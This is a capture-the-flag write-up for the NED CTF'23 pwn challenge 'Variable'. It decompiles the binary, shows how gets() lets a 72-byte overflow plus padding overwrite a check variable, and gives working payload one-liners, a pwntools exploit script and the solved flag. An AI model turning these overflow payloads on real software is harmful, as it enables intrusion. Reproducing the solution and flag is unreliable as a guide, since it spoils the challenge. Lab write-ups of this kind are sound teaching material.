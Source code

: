 ```yaml
---
title: NED CTF'23 - Pwn - Variable
date: '2023-07-03'
tags: ['ctf', 'pwn', 'nedctf', 'writeup', 'buffer-overflow', 'x64', 'variable-overwrite']
draft: false
summary: Overwriting variable to get the flag.
---
```


## Challenge Description

Navigate the binary labyrinth and bend variables to your will.

Author: [Saad Akhtar](https://twitter.com/ssaadakhtarr)

```bash
nc 159.223.192.150 9003
```

![chal-info](/static/writeups/nedctf/pwn/var0.png)

## Solution

Downloading the `variable.zip`, we get the following files

![files](/static/writeups/nedctf/pwn/var1.png)

The `file` security checks on the binary are as follows

![file](/static/writeups/nedctf/pwn/var2.png)

Let's run the `variable` binary to check what it does

![run](/static/writeups/nedctf/pwn/var3.png)

Okay, let's disassemble and check the functions inside ghidra

![functions](/static/writeups/nedctf/pwn/var4.png)

We can see a function called `authenticator`, which seems to be the function that checks if we have the correct password. The disassembled function is as follows

```c

void authenticator(void) {
  char *pcVar1;
  char local_168 [256];
  char local_68 [16];
  char local_58 [64];
  FILE *local_18;
  int local_c;
  
  local_c = -0x11e2153;
  printf("\n\n\nEnter the username: ");
  gets(local_58);
  printf("\nHello %s!\n",local_58);
  printf("\nPlease enter the secret password: ");
  fgets(local_68,0x10,stdin);
  if (local_c == -0x350c454d) {
    local_18 = fopen("flag.txt","r");
    if (local_18 == (FILE *)0x0) {
      puts("\nError: could not open file");
    }
    else {
      printf("\nAccess Granted!\nHere\'s the flag: ");
      while( true ) {
        pcVar1 = fgets(local_168,0x100,local_18);
        if (pcVar1 == (char *)0x0) break;
        printf("%s",local_168);
      }
      fclose(local_18);
    }
  }
  else {
    printf("\nAccess Denied!");
  }
  return;
}
```

Now, inside ghidra, we'll press `l` to rename variables, let's rename the variables accordingly and then the function becomes

```c
void authenticator() {
  char *ret;
  char flagBuffer [256];
  char secretPass [16];
  char userBuffer [64];
  FILE *fd_flag;
  int toOverwrite;
  
  toOverwrite = L'\xfee1dead';
  printf("\n\n\nEnter the username: ");
  gets(userBuffer);
  printf("\nHello %s!\n",userBuffer);
  printf("\nPlease enter the secret password: ");
  fgets(secretPass,0x10,stdin);
  if (toOverwrite == L'\xcaf3bab3') {
    fd_flag = fopen("flag.txt","r");
    if (fd_flag == (FILE *)0x0) {
      puts("\nError: could not open file");
    }
    else {
      printf("\nAccess Granted!\nHere\'s the flag: ");
      while( true ) {
        ret = fgets(flagBuffer,0x100,fd_flag);
        if (ret == (char *)0x0) break;
        printf("%s",flagBuffer);
      }
      fclose(fd_flag);
    }
  }
  else {
    printf("\nAccess Denied!");
  }
  return;
}
```

Now, we can understand quite easily what the function is doing. and see that `gets` function to perform our buffer overflow on. Let's understand the flow of this function:

1. Asking for username (gets) [unsafe]
2. Asking for secret password (fgets) [safe]
3. Checking if `toOverwrite` variable is `0xcaf3bab3` [Hardcoded value is 0xfee1dead]

### Exploitation

So, in order to overwrite the `toOverwrite` variable, we need to overflow the `userBuffer` variable. We're dealing with an `x64` binary, and the buffer size is 64, in order to overflow the `toOverwrite` variable, we need to overflow the `userBuffer` variable and then the `toOverwrite` variable.

So, we need to do some basic maths. Firstly, the buffer is of 64 bytes. In order to overflow this, we need to add 8 bytes to it, i.e. 72 bytes. Now, in order to find the offset of the variable, let's set a breakpoint on `authenticator` function inside gdb and then run the binary

```bash
(gdb) b *authenticator
```

![breakpoint](/static/writeups/nedctf/pwn/var5.png)

Now, we can see that the data of `toOverwrite` is being stored [rbp-4]. So, in our 72 bytes, we need to add 4 more bytes, and then the 4 byte dword i.e. `0xcaf3bab3`. So, our payload will be

```bash
python -c "print('A'*72 + '\x90' * 4 + '\xb3\xba\xf3\xca')" | ./variable
```

![flag](/static/writeups/nedctf/pwn/var6.png)

Now, it's recommended that we add `NOPS` to avoid mistakenly messing up the stack. So, let's redirect this exact payload to our nc listener:

```bash
python -c "print('A'*72 + '\x90' * 4 + '\xb3\xba\xf3\xca')" | nc 159.223.192.150 9003
```

![flag](/static/writeups/nedctf/pwn/var7.png)

For some reason, it got stuck here, to fix this, i added a `newline ('\x0a')` to the payload, and it worked

```bash
python -c "print('A'*72 + '\x90' * 4 + '\xb3\xba\xf3\xca' + '\x0a')" | nc 159.223.192.150 9003
```

> NOTE: If someone can explain to me, in detail why we need \n, please do so on Discord (TheFlash2k). Also, why I think we need the newline is that the `fgets` function is waiting for a newline, and we're not providing it, so it's stuck there. I may be wrong, or may be right, but I'm not sure. I just added it there and the exploit worked.

![flag](/static/writeups/nedctf/pwn/var8.png)

```md
Flag: NCC{s3cr3t_ov3rr1d3n_pwn3d}
```

Now, the exploit.py for this is as follows:

```py:exploit.py
#!/usr/bin/env python3

from pwn import *
import sys
import re

_bin = "./variable"
elf = context.binary = ELF(_bin)

if len(sys.argv) == 2 and sys.argv[1].lower() == "remote":
	io = remote('159.223.192.150', 9003)
else:
	io = process(_bin)

io.recv()

payload = flat(
	[
		b"A" * 72,
		b"\x90" * 4,
		p32(0xcaf3bab3),
		b'\n' # can be 0x0a
	]
)

io.sendline(payload)
buf = io.recv().decode('latin-1')
print(buf)
```

![flag](/static/writeups/nedctf/pwn/var9.png)
